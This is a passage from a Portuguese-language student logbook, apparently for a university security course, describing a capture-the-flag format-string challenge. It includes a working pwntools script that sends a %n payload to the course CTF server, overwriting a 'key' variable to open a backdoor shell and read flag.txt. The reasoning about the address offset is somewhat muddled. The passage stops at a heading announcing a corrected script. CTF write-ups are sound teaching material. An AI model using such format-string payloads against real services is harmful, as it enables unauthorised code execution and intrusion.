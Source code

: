 <p>
Decidimos entao ajustar o endereço de memória que íamos usar no input para o endereço anterior (input_address = 0x804b320 - 1). Com essa alteração, ao considerarmos o endereço = 0x804b320, precisaríamos escrever 48879 bytes. No entanto, com o endereço = 0x804b31F, precisariamos de escrever 48879 * 256 = 12499968 bytes. Isso deve se ao facto de que há 256 possíveis valores para cada byte. Ao escrever 256 bytes adicionais, podemos ultrapassar o endereço de memória de 0x804b31F para 0x804b320, possibilitando a modificação do valor da variável 'key'. Assim, o nosso script foi o seguinte:
</p>

</div>

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4005)

input_address = 0x804b320 - 1
address_bytes = input_address.to_bytes(4, byteorder='little')

# Calculate padding needed to write 0xbeef
padding = 0xbeef * 256 - 4
difference = input_address - 0x804b320

payload = address_bytes + b"%"+str(padding).encode()+b"c"+b"%1$n"

p.sendline(payload)
p.interactive()
```

<p>
Com estas medidas, conseguimos portanto alterar o valor da variável 'key' para 0xbeef e assim ativar a "backdoor", o que nos dá acesso a uma bash, onde conseguimos obter a flag, lendo o conteúdo do ficheiro 'flag.txt'.
</p>

![](uploads/logbook7P13.png)
![](uploads/logbook7P14.png)

## CTF - Endereço corrigido
> Nota - Tal como foi falado na aula prática, o ctf desafio 2 tinha um erro no endereço da variável 'key' e sem esse erro o nosso script funcionava como suposto, tal como foi observado pela professora. Considerando que este erro já foi corrigido, decidimos alterar o nosso script para que funcionasse com o endereço correto. Assim, o nosso script foi o seguinte:
